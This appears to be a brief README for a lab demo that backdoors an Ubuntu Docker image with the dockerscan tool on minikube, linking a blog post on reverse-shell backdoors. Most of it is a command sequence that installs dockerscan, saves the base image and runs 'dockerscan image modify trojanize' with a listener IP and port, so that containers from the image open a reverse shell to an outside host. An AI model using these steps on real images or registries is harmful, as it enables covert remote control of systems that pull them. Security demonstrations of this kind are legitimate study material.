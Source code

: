 # Trojanized Docker image with `dockerscan` tool

https://greencashew.dev/posts/backdooring-docker-images-reverse-shell/

## Minikube

The following show-cases how to deploy everything locally on minikube.

### Start minikube
```bash
minikube start
```

### Download and install DockerScan

Retrieve the IP address minikube is running on
```bash
$ #https://greencashew.dev/posts/backdooring-docker-images-reverse-shell/
sudo apt update
sudo apt install -y nmap
git clone https://github.com/cr0hn/dockerscan
cd dockerscan
sudo python3.6 setup.py install
mkdir backdoor && cd backdoor
docker pull ubuntu:latest
docker save ubuntu:latest -o ubuntu-orginal

export LC_ALL=C.UTF-8
export LANG=C.UTF-8

dockerscan image modify trojanize ubuntu-orginal <listener_ip> -p 45678 -o ubuntu-trojanized

docker load -i ubuntu-trojanized.tar
```

